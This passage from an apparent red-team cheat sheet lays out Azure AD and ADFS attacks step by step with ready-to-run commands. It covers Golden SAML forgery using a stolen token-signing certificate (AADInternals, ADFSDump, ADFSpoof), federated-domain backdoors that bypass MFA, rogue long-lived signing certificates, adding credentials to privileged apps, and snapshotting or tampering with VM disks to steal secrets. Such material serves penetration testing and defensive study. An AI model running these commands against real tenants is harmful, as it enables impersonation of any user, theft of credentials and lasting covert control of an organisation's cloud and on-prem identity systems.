* If the certificate is compromised, it is possible to authenticate to the Azure AD as ANY user synced to Azure AD!
* The certificate can be extracted from the AD FS server with DA privileges and then can be used from any internet connected machine => **Golden SAML attack**

**Lateral Movement - On-Prem to Cloud**

Get the ImmutableID of a user:

```powershell
#From any on-prem machine
[System.Convert]::ToBase64String((Get-ADUser -Identity onpremuser | select -ExpandProperty ObjectGUID).tobytearray())

#From the ADFS server
Get-AdfsProperties |select identifier

#From Azure AD
Get-MsolDomainFederationSettings -DomainName corp.com | select IssuerUri
```

With DA privileges on-prem, extract the ADFS **token signing certificate** from the ADFS server using **AADInternals**:

```powershell
Export-AADIntADFSSigningCertificate
```

With **AADInternals**, access cloud app as the user:

```powershell
Open-AADIntOffice365Portal -ImmutableID <ImmutableID> -Issuer http://corp.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```

With DA privs on-prem, it is possible to create **ImmutableID** of cloud only users. Create a realistic ImmutableID:

```powershell
[System.Convert]::ToBase64String((New-Guid).tobytearray())
```

Then, same steps to access.

Without DA privs but with the `adfs_svc` account (service account normally presents on any ADFS server) it is also possible to extract the **token signing certificate** and the DKM key (needed to decipher the blob) with **ADFSDump**:

```powershell
./ADFSDump.exe
```

If the DKM key can't be extracted automatically, it is possible to retrieve it manually in LDAP:

```bash
ldapsearch -x -h 192.168.20.10 -D 'domain\adfs_svc' -W -b "DC=DOMAIN,DC=LOCAL" |grep 'CN=ADFS,CN=Microsoft,CN=Program Data,DC=domain,DC=local' |grep 'thumbnailPhoto'
```

Then, **ADFSpoof** can be used to forge a `SAMLResponse`:

```bash
python3 ADFSpoof.py -b blob.bin key.bin -s adfs.domain.local saml2 --endpoint "https://servicedesk.domain.local/SamlResponseServlet" --nameidformat "urn:oasis:names:tc:SAML:2.0:nameid-format:transient" --nameid "domain\Administrator" --rpidentifier "ME_29472ca9-86f2-4376-bc09-c51aa974bfef" --assertions '<Attribute Name="http://schemas.xmlsoap.org/ws/2005/05/identity/claims/nameidentifier"><AttributeValue>domain\Administrator</AttributeValue></Attribute>'
```

Once the token is generated, we can authenticate on the SAML as `adfs_svc`, with Burp we intercept the requests and the one to `/SamlResponseServlet` containing the `SAMLResponse` is modified to pass the forged token.

### Persistence

#### Hybrid Identity

If the Azure AD Connect server is joined to the on-prem AD, techniques like Golden and Silver Tickets, ACL backdoors, etc on the on-prem that provide admin access to the server provide GA access to Azure AD:

* PHS: extract creds
* PTA: install agent
* Federation: Golden SAML

**PTA & PHS**

If _self service password reset_ is enabled in Azure AD and the reset is propaged from Azure AD to on-prem AD:

* If the on-prem AD is already compromised : provide high perms with the **AdminSDHolder** (DCSync for example) to a controlled and synced user
* Reset the user's password in Azure AD -> provide DA privs on the on-prem, can be used to obtain GA on Azure AD

**Federation - Trusted Domain**

With GA on a tenant, it is possible to add a new domain, configure its authentication to Federated and to trust a specific certificate. With **AADInternals**:

```powershell
ConvertTo-AADIntBackdoor -DomainName attacker.io 
```

Get ImmutableID of the user that we want to impersonate. Using **Msol** module:

```powershell
Get-MsolUser | select userPrincipalName,ImmutableID
```

Access any cloud app as the user:

```powershell
Open-AADIntOffice365Portal -ImmutableID <ImmutableID> -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA $true
```

**Federation - Token Signing Certificate**

With DA on on-prem it is possible to create new Token signing and Token Decrypt with very long validity.

With **AADInternals**, create new certs (default pass : `AADInternals`), add them to ADFS, disable auto rollover and restart service:

```powershell
New-AADIntADFSSelfSignedCertificates
```

Update info with Azure AD:

```powershell
Update-AADIntADFSFederationSettings -Domain domain.io 
```

#### Storage Account Access Keys

* Provide root access to a storage account
* There are two keys, not automatically rotated
* Provide access persistence to the storage account

#### Applications and SP

* With App Admin priv, GA or custom role with `microsoft.directory/applications/credentials/update` permissions, it is possible to add creds to an existing app
* Useful if the app has high privs
* Bypass MFA
* Also possible to create new app with high privs: with GA, it is possible to create an app with **Privileged authentication administrator role** -> permits to reset GA passwords

Sign as SP with the app ID as username and its secret as password, with **Az PowerShell**:

```powershell
$passwd = ConvertTo-SecureString "<secret>" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $creds -Tenant 2d50cb29-5f7b-48a4-87ce-fe75a941adb6
```

With certificate:

```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```

#### Azure VMs and NSGs

* Azure VMs also support managed identity so persistence on any such VM will allow us access to additional Azure resources.
* Create snapshot of disk attached to a running VM. This can be used to extract secrets stored on disk (like SAM hive for Windows).
* It is also possible to attach a modified/tampered disk to a turned-off VM. For example, add a local administrator

#### Custom Azure AD Roles

With GA on a tenant, it is possible to create custom role and assign it to a user. It is possible to take individual privs from here:

[Built-in roles](https://docs.microsoft.com/en-us/azure/active-directory/roles/permissions-reference)

#### Deployment Modification

It is possible to create persistence from a code deployment solution like GitHub, similarly as the Privilege Escalation part. Often, a GitHub account would not have same level of security and monitoring compared to an Azure AD account with similar privileges.
